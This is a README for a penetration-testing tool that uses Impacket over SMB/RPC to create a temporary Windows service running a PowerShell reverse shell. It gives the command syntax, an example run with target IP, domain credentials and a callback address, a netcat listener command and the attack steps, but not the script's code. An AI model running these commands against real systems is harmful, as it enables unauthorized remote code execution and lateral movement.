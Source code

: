 # SMB Remote Service Shell

## Overview

This script leverages SMB and RPC to remotely create, execute, and clean up a Windows service on a target machine. The service runs a PowerShell reverse shell, allowing remote command execution.

## Features

- Uses Impacket to establish an SMB connection and RPC transport
- Creates a temporary Windows service to execute a reverse shell payload
- Deletes the service after execution
- Allows the user to specify local callback host and port for reverse shell

## Prerequisites

- Python 3.x
- Impacket library installed (`pip install impacket`)

## Installation

1. Clone the repository:
   ```sh
   git clone https://github.com/yourrepo/smb-remote-shell.git
   cd smb-remote-shell
   ```
2. Install dependencies:
   ```sh
   pip install -r requirements.txt
   ```

## Usage

Run the script with the following syntax:

```sh
python smb-remote-shell.py <TARGET> <DOMAIN\USERNAME:PASSWORD> -i <LHOST> -p <LPORT>
```

### Example

```sh
python smb-remote-shell.py 192.168.98.x ch.war.corp\corpmngr:"User4&*&*" -i 192.168.80.x -p 8124
```

### Arguments

| Argument        | Description                                            |
| --------------- | ------------------------------------------------------ |
| `<TARGET>`      | Target machine's IP or hostname                        |
| `<CREDENTIALS>` | Login credentials in `domain\username:password` format |
| `-i <LHOST>`    | Local host for the reverse shell callback              |
| `-p <LPORT>`    | Local port for the reverse shell callback              |

## How It Works

1. The script connects to the target using SMB and RPC.
2. It creates a Windows service executing a PowerShell reverse shell.
3. The service starts, executing the payload and connecting back to the attacker's machine.
4. The script waits for user confirmation before cleaning up the service.

## Notes

- Ensure you have a listener set up on the local machine before running the script:
  ```sh
  nc -lvnp <LPORT>
  ```
- Administrator privileges on the target machine are required.
- Use this tool only in authorized environments.

## Disclaimer

This tool is intended for educational and authorized security testing purposes only.

\
Reference  [https://github.com/fortra/impacket/blob/master/examples/psexec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py)

